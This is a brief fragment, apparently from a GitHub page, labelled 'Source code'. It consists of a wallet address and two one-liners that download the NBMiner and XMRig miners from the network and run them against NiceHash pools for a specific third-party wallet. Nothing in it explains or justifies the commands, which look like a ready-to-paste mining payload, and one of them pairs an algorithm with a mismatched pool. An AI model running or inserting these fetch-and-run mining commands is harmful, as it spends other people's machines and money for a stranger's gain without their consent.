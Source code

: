 0x6ff85749ffac2d3a36efa2bc916305433fa93731.2gs2d6jahqzg0qq

wget https://github.com/NebuTech/NBMiner/releases/download/v39.2/NBMiner_39.2_Linux.tgz && tar -xf  NBMiner_39.2_Linux.tgz && cd NBMiner_Linux && 
./nbminer -a ethash -o stratum+tcp://randomxmonero.usa-west.nicehash.com:3380 -u 0x6ff85749ffac2d3a36efa2bc916305433fa93731.2gs2d6jahqzg0qq -p x

wget https://github.com/xmrig/xmrig/releases/download/v6.15.0/xmrig-6.15.0-linux-x64.tar.gz && tar -xf xmrig-6.15.0-linux-x64.tar.gz && cd xmrig-6.15.0 && ./xmrig -o tcp+ssl://stratum.usa-west.nicehash.com:33380 -a rx -k -u 368dnSPEiXj1Ssy35BBWMwKcmFnGLuqa1J.2gs2d6jahqzg0qq -p x
